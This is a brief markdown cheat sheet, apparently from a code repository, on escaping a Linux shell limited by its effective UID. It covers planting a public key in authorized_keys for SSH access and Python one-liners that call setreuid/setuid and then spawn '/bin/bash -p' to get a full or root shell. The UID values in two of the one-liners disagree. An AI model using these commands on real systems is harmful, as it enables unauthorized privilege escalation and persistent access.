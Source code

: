 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape

current setup:

  euid user: 1000(Eve)

  uid user: 33 (www-data)

rough idea how it works executing step by step:
```
$python
>>import os
>>os.setreuid(1000,1000)	#setreuid(ruid,euid)
>>os.system("/bin/bash -p")
```
one line command:
```
$python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'
```
## For root euid

1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:


```
#python
>>import os
>>os.setuid(0)
>>os.system("/bin/bash -p")
```
one line command:
```
#python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
```
